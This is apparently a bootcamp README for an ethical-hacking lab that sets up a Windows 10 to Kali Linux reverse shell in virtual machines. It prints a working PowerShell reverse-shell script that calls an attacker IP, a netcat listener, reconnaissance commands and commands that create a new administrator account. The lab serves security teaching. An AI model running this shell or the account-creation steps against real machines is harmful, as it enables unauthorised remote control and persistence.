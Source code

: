 # Windows CMD Commands for Remote Hacking
<!-- hide -->

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![Twitter Follow](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*These instructions are also [available in Spanish](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*
<!-- endhide -->

### Before you start...

> We need you! These exercises are created and maintained in collaboration with people like you. If you find any errors or typos, please contribute and/or report them.

## 🌱 How to Start This Project

This exercise aims to utilize Windows CMD commands in the context of a remote connection, simulating a remote hacking attack. This tutorial will help you establish a reverse shell from a Windows 10 machine to a Kali Linux machine, executing a series of commands to gather critical information from the Windows system. All of this will be done in a controlled environment, using virtual machines, and will focus on the post-exploitation phase of an ethical attack.


### Requirements

- **Attacker Machine (Kali Linux)**:
  - Required Software: `Netcat` (pre-installed on Kali Linux)
  
- **Target Machine (Windows 10)**:
  - Access to **PowerShell** and permission to run scripts

> Both virtual machines must be configured with the bridged adapter option so they can communicate over the local network.

## 📝 Instructions

1. Network Configuration: Verify that both machines can communicate using the ping command from Kali to Windows and vice versa.

2. Establish the connection with Netcat on the Kali Linux machine (Attacker). Open a terminal and listen on a specific port (in this case, port 4444) using Netcat:

```bash
nc -lvnp 4444
```

This will set up a listener on the Kali machine, waiting for a connection from Windows.

3. Open PowerShell on the Windows 10 machine (Target) and execute the following script to establish the reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

**Note**: Remember to replace "IP-of-Kali" with the IP address of your Kali Linux machine.

![imagen](assets/powershell.png)


With the script running on Windows, you can now send commands from Kali through the Netcat session you initiated. Here are some useful commands to interact with the Windows machine:

![imagen 1](assets/listening_dir.png)

### Basic Windows Commands:

- **List files in the current directory**:

```bash
dir
```
- **Get system information**:
```bash
systeminfo
```

![imagen 2](assets/systeminfo.png)

- **Get network configuration:**:
```bash
ipconfig
```
![imagen 3](assets/ipconfig.png)

- **List running processes**:
```bash
tasklist
```
### Commands for Detailed Information:

![imagen 4](assets/hostname.png)

- **View system information**:
    ```bash
    hostname
    ```
- **List users on the system**:
    ```bash
    net user
    ```
    
- **View active network connections:**:
    ```bash
    netstat -an
    ```

### Commands for Navigating the File System:

- **Change directory:**:
    ```bash
    tasklist
    ```
- **Create a file or directory:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Administrative Commands (if you have privileges):

- **Shut down or restart the system:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Add an administrator user:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Research more commands to practice..

### End the Session
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)

## Contributors

Thanks to these amazing people ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr), contribution: (bug reports) 🐛

This project follows the [all-contributors](https://github.com/kentcdodds/all-contributors) specification. Contributions of any kind are welcome!

This and other exercises are used to [learn to code](https://4geeksacademy.com/us/learn-to-code) by students at 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) led by [Alejandro Sánchez](https://twitter.com/alesanchezr) and many other contributors. Learn more about our [Programming Courses](https://4geeksacademy.com/us/programming-courses) to become a [Full Stack Developer](https://4geeksacademy.com/us/coding-bootcamps/full-stack-developer), or our [Data Science Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/data-science-machine-learning-bootcamp). You can also dive into cybersecurity with our [Cybersecurity Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/cybersecurity-bootcamp).

